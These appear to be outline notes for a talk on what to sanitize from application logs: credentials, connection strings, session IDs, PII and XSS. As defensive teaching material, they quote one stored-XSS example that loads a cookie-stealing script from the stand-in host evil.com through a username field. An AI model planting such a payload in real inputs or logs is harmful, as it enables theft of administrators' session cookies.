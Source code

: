 # Ep-2: Log Sanitization


## Intro

-   Question that we'll investigate
    -   "What items should I sanitize from the application logs?"
        -   More than just passwords :)


## Recon Background

-   Physical Recon (Reconnaissance)
    -   Social Engineering: The Art of Human Hacking
        -   "I cant wait to jump in the dumpster!"
    -   Rushed employees don't shred documents
-   Application Logs
    -   Application's dumpster
        -   Common attack target
        -   Rushed Devs/DevOps engineers dont "shred" sensitive information


## Username Issues

-   User accidentally enters their password into the username field
-   Log view
    1.  "Username ronaldmcdonaldPassword123 doesn't exist"
    2.  "Username ronaldmcdonald logged in successfully"
-   Sanitize all usernames from logs?
    -   No
        -   Incident Response
        -   Find trade-off


## Username Issues (Solution)

-   Possible solution
-   Server-side validation
    -   If server receives a username with no password
        1.  Abort the request
            -   Dont query the DB
        2.  Dont log the username
        3.  Log IP for bot/DoS activity
-   Client-side validation as well
    -   Don't send the request


## Sanitize Logs For Credentials

-   User's password within a form `POST`
-   Connection strings with basic authentication
    -   DB connection strings
        -   `https://dbUser:dbPassword@www.example.com`
    -   Log View: "Connection to `https://dbUser:dbPassword@www.example.com` succeeded"
    -   Fix
        -   Setup logging middleware that sanitizes basic auth
            -   Regex `//:ANYTHING:ANYTHING@`
-   Build script output
    -   Jenkins
        -   <https://wiki.jenkins.io/display/JENKINS/Credentials+Plugin>
        -   Centralized secret management
        -   Dont use `set -x`


## Sanitize Logs For XSS

-   What is XSS (Cross Site Scripting)?
    -   Ex: Attacker places malicious javascript in victim's browser
        -   Steal auth cookie
-   How can the logs be an XSS risk?
    1.  Malicious guy signs up for a service with the username of
        -   `<script src="evil.com/authCookieStealer.js"></script>`
    2.  Log gets sent to admin UI
        -   Log View
            -   `Username <script src="evil.com/authCookieStealer.js"></script> logged in`
    3.  Admin views the logs
    4.  Admin's browser interprets HTML and loads `authCookieStealer.js`


## Sanitize Logs For XSS (Solution)

-   XSS filter before persisting to logs
    -   Escape All HTML special characters before logging
        -   Ex: `< >` etc.
-   `XSS` node.js module (and cli tool)
    -   Can escape all html tags or a tag whitelist
    -   `script` tag escaping
        -   <http://jsxss.com/en/try.html>
-   Recommendations
    -   For logs, nothing should be in whitelist
    -   For auditing, escape instead of removing tags


## Sanitize Logs For Sensitive Url Parameters

-   SSNs or other personally identifiable information
    -   Health conditions
        -   Check compliance
        -   Often logs are stored unencrypted, this could violate HIPAA
-   Auth Cookies
    -   Certain frameworks will automatically put sessionids (auth information) in url parameters if cookies are
        turned off
    -   Session Tracking
        -   Hash session
-   nginx considerations
    -   Talk to DevOps


## Additional Resources

-   <https://www.owasp.org/index.php/Logging_Cheat_Sheet>
-   <https://www.owasp.org/index.php/OWASP_Security_Logging_Project>


## Error Log

:PROPERTIES:


## Knowledge Dependency Tree
